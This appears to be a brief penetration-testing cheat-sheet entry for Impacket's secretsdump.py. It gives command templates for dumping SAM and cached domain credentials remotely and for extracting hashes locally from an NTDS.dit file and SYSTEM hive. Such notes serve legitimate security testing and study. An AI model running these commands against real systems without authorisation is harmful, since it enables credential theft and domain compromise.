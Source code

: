 Dumps local SAM & cached domain user credentials

Over internet: 
secretsdump.py <domain>/<username>:<password>@<ip>

Locally:
python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL